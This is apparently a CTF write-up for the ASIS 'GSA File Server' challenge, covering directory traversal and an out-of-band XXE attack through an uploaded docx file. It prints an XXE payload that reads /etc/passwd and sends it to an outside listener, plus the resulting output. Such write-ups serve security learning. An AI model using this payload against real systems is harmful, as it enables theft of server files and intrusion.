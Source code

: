
<h1>GSA File Server</h1>  
<b>Category</b>: Web Network OSINT
<h2>Description:</h2>

GSA's file server, go find the hole, drill it and grab the flag :)
Note that Scope is 128.199.40.185:*
Alert: No remote brute force and automated scanning are needed.


So after checking the website, look like a simple web app with JS (js/functions.js) with a interesting parameter (showFiles)


![img](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/1.PNG)

so i tried  a GET request to see the server answer and all i get is this  (look like listing the elements in specific directory
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/2.PNG)

let check with burpsuit :
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/3.PNG)

Bingooo, as you can see in the server answer there is the Directory parameter , so let's try some traversal tricks ,
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/4.PNG)

use ../  and you can see that it's work perfectly , let's check others files 

![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/5.PNG)


so the admin panel is the (panelmanager-0.1) , now we have to read the files on the server, but first let's check the the panelmanager
let's try 128.199.40.185/panelmanager-0.1 .. FAIL!!!
but as you can see in the description that said (that Scope is 128.199.40.185:*) 

try the common port 8080 (FAIL) ..8081 (work) as you can see is a simple upload that's allow you to upload files (docx ..)

![img](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/099.PNG)

generally when we say docx ==> XML ==> XXE , 
we need a listener and a good payload and docx (where we inject in the word/document.xml) 
i used https://requestb.in (as listener )  and as a payload in the docx 

![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/payload.PNG)

where the txt file contains:
```
<!ENTITY % filebase64 SYSTEM "php://filter/convert.base64-encode/resource=../../../../etc/passwd">
<!ENTITY % injme '<!ENTITY startme SYSTEM "https://requestb.in/****?xxe=%filebase64;">'>
```

so i have only to modify the payloads in my webserver and reupload the file docx (without rebuild-it every single try)
and to check the aswer you have to visite (https://requestb.in/****?inspect) 

i get answer for the /etc/passwd  
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
[................]
```

to be honest i spent hours graping files but no FLAG ...  but the most interesting thing  is the  filesharing (permission denied) 
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/7.PNG)

so the idea is to read /etc/samba/smb.conf to get secret dir filename which is s3cRetP4th 
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/10.PNG)

and all we have to do now is the grab the file and get the FLAG  
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/11.PNG) 

the flag  ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}  
